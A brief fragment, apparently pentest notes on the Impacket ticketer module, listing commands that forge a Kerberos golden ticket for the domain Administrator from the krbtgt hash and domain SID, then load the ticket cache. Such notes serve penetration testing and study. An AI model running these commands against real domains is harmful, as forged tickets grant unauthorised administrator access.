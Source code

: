 # Impacket Ticketer module

 - ticketer.py -nthash HASHKRBTGT -domain-sid SID_DOMAIN_A -domain DEV Administrator

 - export KRB5CCNAME=/home/user/ticket.ccache

 - cat $KRB5CCNAME
